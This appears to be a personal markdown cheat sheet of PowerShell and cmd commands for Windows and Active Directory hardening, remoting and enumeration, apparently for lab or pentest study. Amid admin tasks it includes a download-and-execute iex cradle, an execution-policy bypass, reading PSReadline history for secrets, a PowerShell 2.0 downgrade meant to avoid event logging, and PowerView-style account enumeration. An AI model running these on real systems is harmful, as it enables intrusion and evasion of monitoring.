

## disable SMBv1 "Eternal Blue"
### check
```powershell
Get-SmbServerConfiguration | Select EnableSMB1Protocol
```
### disable
```powershell
Set-SmbServerConfiguration -EnableSMB1Protocol $false
```
### check for service principal names
```powershell
setspn -L <hostname>
Get-ADUser -Filter {ServicePrincipalName -ne '$null'} -Properties ServicePrincipalName
```
### Deregister spn
```powershell
setspn -d <serviceClass/Host:Port> <AccountName>
```
### Backup DNS

```powershell
Export-DnsServerZone -Name <zonename> -filename <zonename.dns.bak>
```
- will be stored in C:\Windows\System32\dns

## add local computer to allow psremoting via WSMAN works on powershell 7 or core
```powershell
Set-Item WSMan:\localhost\client\trustedhosts -Value '192.168.50.101,192.168.50.100,172.21.0.11,172.21.0.222,172.21.0.78'

```
```powershell
New-PSSession -name 'test' -ComputerName '192.168.50.101'
Enter-PSSession -name 'test'
$x = New-PSSession -name 'test' -ComputerName '192.168.50.101' -Credential 'WWE\Administrator'
Invoke-Command -Session $x -Computername '192.168.50.101' -Scriptblock {whoami}
```

## map network drives
```powershell
New-PSDrive -Name X -PSProvider FileSystem -Root \\192.168.220.80\backups -Credential 'coastbackup' -Persist
```
### setting up kerberos logging command line
- check gpos for domain
```powershell
Get-GPO -All -Domain "sales.contoso.com"
```
- easier to do through group policy graphically, but we can update the audit policy directly

```powershell
Set-SystemAuditPolicy -AccountLogon 'Kerberos Authentication Service' -Value SuccessAndFailure -Verbose
Set-SystemAuditPolicy -AccountLogon 'Kerberos Service Ticket Operations' -Value SuccessAndFailure -Verbose

```
- trying a password spray attack, lets see if logs show up


## good enumeration commands
```powershell
hostname
[System.Environment]::OSVersion.Version
wmic qfe get Caption,Description,HotFixID,InstalledOn
ipconfig /all
set
```


```cmd
echo %USERDOMAIN%
echo %logonserver%
```

## powershell enumeration
```powershell
Get-ExecutionPolicy -List
Set-ExecutionPolicy Bypass -Scope Process
Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
Get-ChildItem Env: | ft Key,Value
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"

```
- Powershell event logging was introduced as a feature with Powershell 3.0 and forward. With that in mind, we can attempt to call Powershell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer. 
```powershell
powershell.exe -version 2
```

## powersploit/powerview
- add folder to path where powershell modules are store C:\Users\Documents\WindowsPowerShell\Modules
- Import-Module Powersploit
- dot source powerview.ps1 . .\powerview.ps1
- see documentation for available commands
[powersploit](https://github.com/PowerShellMafia/PowerSploit)

- see if anyone else is logged in
```powershell
qwinsta
```
## wmi enumeration
```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn 	#Prints the patch level and description of the Hotfixes applied
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List #Displays basic host information to include any attributes within the list
wmic process list /format:list 	#A listing of all processes on host
wmic ntdomain list /format:list 	#Displays information about the Domain and Domain Controllers
wmic useraccount list /format:list 	#Displays information about all local accounts and any domain accounts that have logged into the device
wmic group list /format:list 	#Information about all local groups
wmic sysaccount list /format:list
```
## dsquery
- gives full path to ldap distiguished names for objects, users, groups!
```powershell
dsquery user
dsquery computer
dsquery group
dsquery * -filter "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.2.803:=64))" -attrs SamAccountName 
distiguishedName 
dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```

- 1.2.840.113556.1.4.803 matches exactly
- 1.2.840.113556.1.4.804 matches if any are a match, for multiple entries
- 1.2.840.113556.1.4.1941 applies to Distiguished names